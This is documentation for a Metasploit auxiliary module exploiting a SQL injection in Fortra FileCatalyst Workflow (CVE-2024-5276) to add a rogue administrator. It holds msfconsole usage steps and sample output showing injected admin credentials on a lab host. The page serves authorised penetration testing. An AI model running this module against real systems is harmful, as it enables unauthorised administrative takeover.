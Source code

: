 ## Vulnerable Application

This module exploits a SQL injection vulnerability in Fortra FileCatalyst Workflow <= v5.1.6 Build 135 (CVE-2024-5276), by adding a new
administrative user to the web interface of the application.

The vendor published an advisory [here]
(https://support.fortra.com/filecatalyst/kb-articles/advisory-6-24-2024-filecatalyst-workflow-sql-injection-vulnerability-YmYwYWY4OTYtNTUzMi1lZjExLTg0MGEtNjA0NWJkMDg3MDA0)
and [here](https://www.fortra.com/security/advisories/product-security/fi-2024-008).

## Testing

The software can be obtained from the [vendor](https://www.goanywhere.com/products/filecatalyst/trial).

Deploy it by following the vendor's [installation guide]
(https://filecatalyst.software/public/filecatalyst/Workflow/5.1.6.139/FileCatalyst_Web_Tomcat_Installation.pdf).

**Successfully tested on**

- Fortra FileCatalyst Workflow v5.1.6 (Build 135) on Windows 10 22H2
- Fortra FileCatalyst Workflow v5.1.6 (Build 135) on Ubuntu 24.04 LTS

## Verification Steps

1. Deploy Fortra FileCatalyst Workflow <= v5.1.6 Build 135
2. Start `msfconsole`
3. `use auxiliary/admin/http/fortra_filecatalyst_workflow_sqli`
4. `set RHOSTS <IP>`
5. `set RPORT <PORT>`
6. `set TARGETURI <URI>`
7. `set NEW_USERNAME <username>`
8. `set NEW_PASSWORD <password>`
9. `run`
10. A new admin user should have been successfully added.

## Options

### NEW_USERNAME
Username to be used when creating a new user with admin privileges.

### NEW_PASSWORD
Password to be used when creating a new user with admin privileges.

### NEW_EMAIL
E-mail to be used when creating a new user with admin privileges.

## Scenarios

Running the module against FileCatalyst Workflow v5.1.6 (Build 135) on either Windows 10 22H2 or Ubuntu 24.04 LTS should result in an output
similar to the following:

```
msf6 auxiliary(admin/http/fortra_filecatalyst_workflow_sqli) > run
[*] Running module against 192.168.137.195

[*] Starting SQL injection workflow...
[+] Server reachable.
[*] JSESSIONID value: CBD945F52F91E0F4354296C939BDABDE
[*] FCWEB.FORM.TOKEN value: IvHIPuxllBiHOfXzLlaS
[*] Redirect #1: /workflow/createNewJob.do?.rnd2=3324035&FCWEB.FORM.TOKEN=IvHIPuxllBiHOfXzLlaS
[*] Redirect #2: /workflow/jsp/chooseOrderForm.jsp?.rnd2=3324040&FCWEB.FORM.TOKEN=IvHIPuxllBiHOfXzLlaS
[*] Received expected response.
[+] SQL injection successful!
[*] Confirming credentials...
[*] FCWEB.FORM.TOKEN value: IvHIPuxllBiHOfXzLlaS
[+] Login successful!
[+] New admin user was successfully injected:
	elroy:yodTwsPs
[+] Login at: http://192.168.137.195:8080/workflow/jsp/logon.jsp
[*] Auxiliary module execution completed
```
